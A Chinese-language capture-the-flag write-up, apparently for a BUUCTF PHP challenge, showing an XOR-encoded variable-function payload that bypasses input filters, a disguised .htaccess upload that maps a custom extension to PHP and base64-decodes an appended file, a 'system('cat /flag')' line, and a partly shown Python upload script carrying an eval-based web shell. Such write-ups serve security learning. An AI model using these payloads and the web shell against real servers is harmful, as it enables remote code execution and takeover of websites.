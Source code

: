 	print(T)
	```



构造`$_GET[a]();&a=phpinfo`        
![01.png](https://sc02.alicdn.com/kf/U71602567344d4ae2afee14ccff8f185ek.jpg)     
payload:`${%df%c7%c5%d4^%80%80%80%80}{%80}();&%80=phpinfo`    


然后执行`get_the_flag()`函数          
`${%df%c7%c5%d4^%80%80%80%80}{%80}();&%80=get_the_flag`       

上传文件      
过滤了`ph/i`       
考虑`.user.ini`或者`.htaccess`        
`.user.ini`需要上传的目录里有可执行的PHP文件，这里显然没有         

`.htaccess`     
因为有头文件检测，一般用GIF89a，看WP说是会使文件失效；我试了下，发现上传失败；用`#define width 1337#define height 1337 `可以绕过   

		#define width 1337
		#define height 1337
		AddType application/x-httpd-php .ahhh    ##将.ahhh后缀的文件以PHP解析
		php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.ahhh 
最后一句的解释：               
![05.png](https://ae02.alicdn.com/kf/Ued9c20fc4b034016b3961677278461e7l.jpg)    


过滤了`<?`      
`<script language="php">system('cat /flag');</script>`也不能用，php版本7.x的         

base64编码，在`.htaccess`里解码         

[大佬的上传脚本](https://blog.csdn.net/qq_42967398/article/details/105615235)         






	```python
	import requests
	import base64
	
	htaccess = b"""
	#define width 1337
	#define height 1337
	AddType application/x-httpd-php .ahhh
	php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.ahhh"
	"""
	shell = b"GIF89a12" + base64.b64encode(b"<?php eval($_REQUEST['cmd']);?>")
	url = "http://2f470aa2-5472-401e-b146-efd0864251a5.node3.buuoj.cn/?_=${%df%c7%c5%d4^%80%80%80%80}{%80}();&%80=get_the_flag"
	
	files = {'file':('.htaccess',htaccess,'image/jpeg')}
	data = {"upload":"Submit"}
	response = requests.post(url=url, data=data, files=files)
	print(response.text)
	
